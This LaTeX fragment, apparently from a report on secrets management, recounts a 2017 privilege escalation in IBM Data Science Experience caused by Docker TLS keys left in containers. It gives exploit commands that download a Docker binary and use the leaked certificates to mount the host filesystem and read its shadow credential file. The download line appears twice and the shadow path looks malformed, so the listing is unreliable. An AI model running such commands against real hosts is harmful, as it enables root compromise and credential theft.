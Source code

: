 \documentclass[a4paper,12pt]{article}
\begin{document}
One example of how a bad management of secrets could be fatal for an agency
comes from IBM. In 2017 a privilege escalation vulnerability was found inside
IBM Data Science Experience, a data analytics product
\cite{ibm_data_science_experience}. Such vulnerability was caused by a wrong
configuration of the Docker containers that were running the service. IBM's
engineers left inside the containers Docker TLS keys, leaving root access across
the whole computer cluster and read/write access to terabytes of sensible
customer data. \par As stated by the report of the vulnerability
\cite{ibm_data_sciene_report}, an exploit of such threat was also quite easy,
requiring only an access to to Internet and a web browser:
\begin{itemize}
  \item the attacker should just enter the service's web environment, accessing
  to its command line;
  \item he should download and extract the Docker binary of the service, using
  the following commands: 
  \begin{lstlisting}
system("wget https://test.docker.com/builds/Linux/x86_64/docker-1.13.1-rc1.tgz")
system("wget https://test.docker.com/builds/Linux/x86_64/docker-1.13.1-rc1.tgz")
  \end{lstlisting}
  \item he should use the downloaded Docker binary with the existing
  certificates to achieve root access to the host mounted volume:
  \begin{lstlisting}
system("DOCKER_API_VERSION=1.22 ./docker/docker -H 172.17.0.1 \
          --tlscacert /certs/ca.pem --tlscert /certs/cert.pem \
          --tlskey /certs/key.pem \
          run -v /:/host debian cat /host//shadow")
  \end{lstlisting}
\end{itemize} 

\subsubsection{ARP Spoofing}
\end{document}
